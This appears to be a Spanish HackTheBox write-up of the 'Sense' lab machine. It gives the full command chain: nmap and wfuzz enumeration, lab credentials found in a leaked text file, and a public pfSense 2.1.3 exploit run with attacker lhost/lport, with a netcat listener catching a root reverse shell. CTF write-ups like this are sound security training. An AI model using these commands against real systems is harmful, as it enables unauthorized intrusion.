






HackTheBox
Easy
FreeBSD
pfSense
Web Fuzzing
RCE
Sense
Fuzzing web encuentra system-users.txt con credenciales; pfSense 2.1.3 vulnerable a RCE autenticado directo a root.
cat4clysm
Herramientas utilizadas
nmap
wfuzz
searchsploit
netcat
Scanning
root@kali:~$
nmap -sC -sV -n -Pn -p443,80 10.10.10.60 -oN targeted
Enumeracion Web - pfSense
root@kali:~$
wfuzz -c --hc 403,404 -t 300 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -w extensions.txt https://10.10.10.60/FUZZFUZ2Z
Encontramos changelog.txt y system-users.txt:


username: rohit
password: pfsenseExplotacion - pfSense RCE
root@kali:~$
searchsploit pfsense
root@kali:~$
searchsploit -m php/webapps/43560.py
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.5 --lport 4444 --username rohit --password pfsense
nc -lvp 4444
cat /home/rohit/user.txt
cat /root/root.txtLecciones aprendidas
- Los archivos .txt olvidados en el servidor web pueden exponer credenciales validas.
- pfSense 2.1.3 tiene un RCE autenticado critico que da acceso root directamente.
- El fuzzing con extensiones multiples (.txt, .php, .xml) es esencial en aplicaciones web.